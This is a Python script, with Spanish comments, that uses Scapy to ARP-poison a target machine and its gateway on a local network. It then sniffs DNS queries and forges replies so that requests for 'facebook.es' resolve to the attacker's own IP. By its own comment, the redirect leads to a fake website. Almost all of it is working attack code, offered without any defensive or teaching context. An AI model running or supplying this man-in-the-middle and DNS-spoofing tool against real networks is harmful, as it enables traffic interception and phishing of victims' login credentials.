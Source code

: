 ```python
from scapy.all import ARP, Ether, srp, send, sniff, DNS, DNSRR, IP, UDP
import time
import sys

# Variables
objetivo_ip = '192.168.0.34'
gateway_ip = '192.168.0.1'
atacante_ip = '192.168.0.28'

# Obtener la dirección MAC de una IP
def obtener_mac(ip):
    arp_request = ARP(pdst=ip)
    broadcast = Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast / arp_request
    response = srp(arp_request_broadcast, timeout=2, verbose=False)[0]

    for sent, received in response:
        return received[Ether].src
    return None

# Enviar paquetes ARP falsos
def arp_spoof(objetivo_ip, gateway_ip):
    mac_victima = obtener_mac(objetivo_ip)
    gateway_mac = obtener_mac(gateway_ip)
    
    if not mac_victima or not gateway_mac:
        print("No se pudo obtener la dirección MAC. Saliendo...")
        sys.exit(1)
    
    print("Iniciando ARP spoofing y captura de paquetes DNS...")

    try:
        while True:
            # Enviar paquetes ARP falsos
            send(ARP(op=2, pdst=objetivo_ip, psrc=gateway_ip, hwsrc=gateway_mac, hwdst=mac_victima), verbose=False)
            send(ARP(op=2, pdst=gateway_ip, psrc=objetivo_ip, hwsrc=mac_victima, hwdst=gateway_mac), verbose=False)

            # Capturar paquetes DNS
            sniff(filter="udp port 53", prn=dns_spoof, store=0, count=1)

            # Esperar antes de enviar los próximos paquetes ARP
            time.sleep(1)
    except KeyboardInterrupt:
        print("ARP spoofing detenido.")
        sys.exit(0)

# Redirigir solicitudes DNS a mi web falsa
def dns_spoof(paquete):
    if paquete.haslayer(DNS) and paquete.getlayer(DNS).qr == 0:  # Si es una solicitud DNS
        if b"facebook.es" in paquete[DNS].qd.qname:  # Si la solicitud es para 'facebook.es'
            print(f"Interceptado {paquete[IP].src} solicitando {paquete[DNS].qd.qname}")

            spoofed_packet = IP(dst=paquete[IP].src, src=paquete[IP].dst) / \
                             UDP(dport=paquete[UDP].sport, sport=paquete[UDP].dport) / \
                             DNS(id=paquete[DNS].id, qr=1, aa=1, qd=paquete[DNS].qd,
                                 an=DNSRR(rrname=paquete[DNS].qd.qname, ttl=10, rdata=atacante_ip))
            
            send(spoofed_packet, verbose=False)
            print(f"Redirigiendo a {atacante_ip}")

# Iniciar ARP spoofing y captura de paquetes DNS
```